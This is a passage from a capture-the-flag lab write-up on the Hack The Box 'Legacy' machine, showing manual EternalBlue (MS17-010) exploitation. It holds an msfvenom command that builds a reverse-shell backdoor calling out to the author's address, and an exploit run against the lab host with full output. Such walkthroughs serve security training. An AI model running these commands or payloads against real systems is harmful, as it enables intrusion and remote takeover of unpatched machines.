 ### MS17-010 manual exploit

This [repo](https://github.com/helviojunior/MS17-010) is the best when it comes to exploiting ```Eternal Blue```

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Legacy/MS17-010]
└─$ python send_and_execute.py
send_and_execute.py <ip> <executable_file> [port] [pipe_name]
                                                                       
```

This exploit script ```send_and_execute.py``` sends our own executable to tha target machine and runs it through ```Eternal Blue```

Lets make our own malicious executable (```Backdoor/Reverse Shell```)

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=9876 EXITFUNC=thread -f exe -a x86 --platform windows -o backdoor.exe  
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: backdoor.exe
```

Now lets run our exploit,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Legacy/MS17-010]
└─$ python send_and_execute.py 10.10.10.4 /home/aidenpearce369/backdoor.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x821dfc18
SESSION: 0xe17cec88
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1bdbb10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1bdbbb0
overwriting token UserAndGroups
Sending file 6EIB4H.exe...
Opening SVCManager on 10.10.10.4.....
Creating service PSKo.....
Starting service PSKo.....
The NETBIOS connection with the remote host timed out.
Removing service PSKo.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```
